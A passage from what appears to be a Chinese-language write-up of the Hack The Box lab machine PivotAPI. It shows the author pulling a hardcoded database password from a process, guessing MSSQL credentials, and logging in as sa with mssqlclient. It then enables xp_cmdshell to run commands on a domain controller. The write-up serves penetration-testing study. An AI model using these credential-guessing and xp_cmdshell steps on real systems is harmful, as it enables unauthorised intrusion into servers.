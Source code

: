 监控一下进程，因为在邮件中提示`restart-service.exe`是一个用来解决`Oracle`数据库的运行问题的程序，用来重启`Oracle`，所以尝试用关键词`passw`直接搜索一下是否存在连接数据库的账号密码。

![](https://images.geist-tech.top/PicList/20250805123505486.png)


```bash
svc_oracle: #oracle_s3rV1c3!2010
```

### 域渗透

在bloodhound查看一下，发现只有svc_mssql用户

```bash
$ sshpass -p '#oracle_s3rV1c3!2010' ssh svc_oracle@LicorDeBellota.htb
Permission denied, please try again.
```

根据之前邮件的内容以及bloodhound查找到的mssql用户，猜测可能存在一个mssql的凭证

```bash
svc_mssql, #mssql_s3rV1c3!2020
```

```bash
mssqlclient.py 'LicorDeBellota.htb/svc_mssql:#mssql_s3rV1c3!2020@10.10.10.240'

Line 1: Error de inicio de sesión del usuario 'svc_mssql'.
```

提示不正确，这里可能是猜测错了，但是svc_mssql这个账号是bloodhound给出的一个系统账号，服务器本身的mssql是不是用的svc_mssql这个用户名，其实不一定，还可以试试mssql的默认用户名

```bash
mssqlclient.py 'LicorDeBellota.htb/sa:#mssql_s3rV1c3!2020@10.10.10.240'
```

```bash
enable_xp_cmdshell
xp_cmdshell systeminfo
```

|原文（西班牙语）|翻译（英语）|
|---|---|
|**Nombre de host:** PIVOTAPI|**Host Name:** PIVOTAPI|
|**Nombre del sistema operativo:** Microsoft Windows Server 2019 Standard|**OS Name:** Microsoft Windows Server 2019 Standard|
|**Versión del sistema operativo:** 10.0.17763 N/D Compilación 17763|**OS Version:** 10.0.17763 N/A Build 17763|
|**Configuración del sistema operativo:** Controlador de dominio principal|**OS Configuration:** Primary Domain Controller|
|**Propiedad de:** Usuario de Windows|**Registered Owner:** Windows User|
|**Fecha de instalación original:** 07/08/2020, 23:14:31|**Original Install Date:** 07/08/2020, 23:14:31|
|**Tiempo de arranque del sistema:** 05/08/2025, 2:27:32|**System Boot Time:** 05/08/2025, 2:27:32|
|**Fabricante del sistema:** VMware, Inc.|**System Manufacturer:** VMware, Inc.|
|**Modelo el sistema:** VMware7,1|**System Model:** VMware7,1|
|**Tipo de sistema:** x64-based PC|**System Type:** x64-based PC|
|**Procesador(es):** 2 Procesadores instalados.|**Processor(s):** 2 processors installed.|
|**Versión del BIOS:** VMware, Inc...|**BIOS Version:** VMware, Inc...|
|**Directorio de Windows:** C:\Windows|**Windows Directory:** C:\Windows|
|**Directorio de sistema:** C:\Windows\system32|**System Directory:** C:\Windows\system32|
|**Dispositivo de arranque:** \Device\HarddiskVolume2|**Boot Device:** \Device\HarddiskVolume2|